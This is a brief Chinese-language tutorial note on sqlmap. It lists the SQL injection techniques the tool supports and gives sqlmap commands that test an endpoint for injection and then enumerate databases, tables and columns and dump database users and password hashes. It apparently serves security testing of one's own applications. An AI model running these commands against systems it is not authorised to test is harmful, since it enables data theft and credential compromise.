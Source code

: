 # sqlmap

- https://github.com/sqlmapproject/sqlmap
- https://sqlmap.org

自动 SQL 注入和数据库接管工具

支持的 SQL 注入技术：

1. 布尔盲注
2. 时间盲注
3. 错误注入
4. UNION查询注入
5. 堆叠查询
6. 带外注入

### sql注入 - MySQL

#### 1、分析出存在sql注入安全的接口

idea插件`Java Mybatis SQL Scanner`或`MOMO Code Sec Inspector` -> 扫描 Mybatis SQL XML 文件，分析出不规范或者潜在风险的SQL。

#### 2、sqlmap获取数据

```shell
# 直连数据库 -- 知道账号密码的情况下
python sqlmap.py -d "mysql://root:root@127.0.0.1:3306/demo" -f --banner --users

# 未知账号密码的情况下，可以用本地api接口地址来测试 (含有sql注入的接口  sql注入示例: WHERE id=1 and 1=1 )    ex: python sqlmap.py -u "http://127.0.0.1:888/api/test/sql?username=1" --batch --banner
# 判断是否存在注入
python sqlmap.py -u "http://url地址" --batch --banner
# 获取当前用户下的所有数据库
python sqlmap.py -u "http://url地址" --dbs
# 获取指定库的表名
python sqlmap.py -u "http://url地址" -D 库名 --tables
# 获取指定库+表名下的字段
python sqlmap.py -u "http://url地址" -D 库名 -T 表名 --columns
# 获取数据库账号
python sqlmap.py -u "http://url地址" --users
# 获取数据库密码
python sqlmap.py -u "http://url地址" --passwords
```
